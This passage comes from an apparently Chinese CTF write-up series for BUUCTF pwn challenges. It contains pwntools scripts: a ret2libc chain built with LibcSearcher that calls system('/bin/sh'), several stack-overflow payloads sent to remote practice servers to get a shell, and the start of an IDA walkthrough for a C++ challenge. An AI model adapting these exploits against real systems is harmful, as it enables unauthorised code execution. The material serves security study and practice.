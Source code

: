 ```python
write = u32(io.recv(4))
print(hex(write))
libc = LibcSearcher('write', write)
base = write - libc.dump('write')
sys = libc.dump('system') + base
binsh = libc.dump('str_bin_sh') + base
payload = cyclic(0x6C + 4)
payload += p32(sys)
payload += p32(0)
payload += p32(binsh)
io.sendline(payload)
io.interactive()
```
# buu050-bbys_tu_2016
```python
from pwn import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 27499)
io.sendline(cyclic(0xC + 12) + p32(0x804856D))
io.interactive()
```
# buu051-mrctf2020_easyoverflow
连上之后输48个无效字节+'n0t_r3@11y_f1@g'
# buu052-wustctf2020_getshell_2
这道题只能溢出到返回地址+4字节的地方，直接修改返回地址到system函数的话参数写不进去，所以利用shell函数返回到指令'call _system'的地方，在后面就可以写函数参数'sh'（截取/bbbbbbbbin\_what\_the\_f?ck\_\_--??/sh的最后两个字节）了。
```python
from pwn import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 29467)
elf = ELF('./pwn')
io.sendline(cyclic(24+4) + p32(0x8048529) + p32(0x8048670))
io.interactive()
```
# buu053-[ZJCTF 2019]Login
第一道C++ pwn题。这也是我第一次认真在做一道C++ pwn的题目。
当然首先，我们需要会逆向C++程序。C++是C的超集，有很多C中没有的东西。其中最为重要的就是类与对象的识别了。
在这一题中，程序的符号表貌似没有被删除，我们可以看到IDA为我们分析出来的各种函数名与类名称。
![](https://img-blog.csdnimg.cn/71aff38bece04a26a36e2d9a3e1ff1e3.png)
其中容易发现程序中定义了两个类：User和Admin，而且似乎有三个main中定义的lambda函数。

程序中无法查看User类的具体结构，因此我们需要手动创建User类结构体，在IDA的Structures窗口中定义：Ins快捷键创建结构体，Del删除结构体，D/A/*创建结构体成员（常用D），N修改成员名，U删除成员。如下图：（具体为什么要这样定义看下面的分析）
![](https://img-blog.csdnimg.cn/f746484ce3754ae7b30226894ed46457.png)
